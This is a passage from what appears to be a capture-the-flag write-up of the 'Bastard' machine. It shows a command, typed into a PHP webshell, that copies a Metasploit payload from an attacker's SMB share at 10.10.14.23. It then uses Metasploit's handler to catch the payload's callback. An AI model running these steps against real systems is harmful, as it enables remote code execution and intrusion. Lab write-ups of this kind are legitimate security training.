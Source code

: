 Now that the smb server is running we can enter `copy \\10.10.14.23\evilshare\msf.exe msf.exe` into our PHP webshell.

![smb-2](/images/bastard/smb-2.png)

We can then open Metasploit console and use `exploit/multi/handler` to recieve the callback from our payload

![msf-2](/images/bastard/msf-2.png)
